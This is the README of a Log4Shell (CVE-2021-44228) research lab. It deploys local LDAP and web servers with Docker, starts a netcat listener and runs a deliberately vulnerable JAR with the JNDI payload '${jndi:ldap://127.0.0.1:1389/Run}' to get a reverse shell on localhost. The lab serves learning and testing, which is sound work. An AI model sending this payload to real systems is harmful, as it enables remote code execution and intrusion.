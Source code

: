# CVE-2021-44228 Log4Shell Research Lab 🚧

A basic lab environment to test some of the public proof of concepts to trigger and learn more about [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) and expedite the time it takes to deploy multiple scenarios.

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Dockerized**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Locally**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/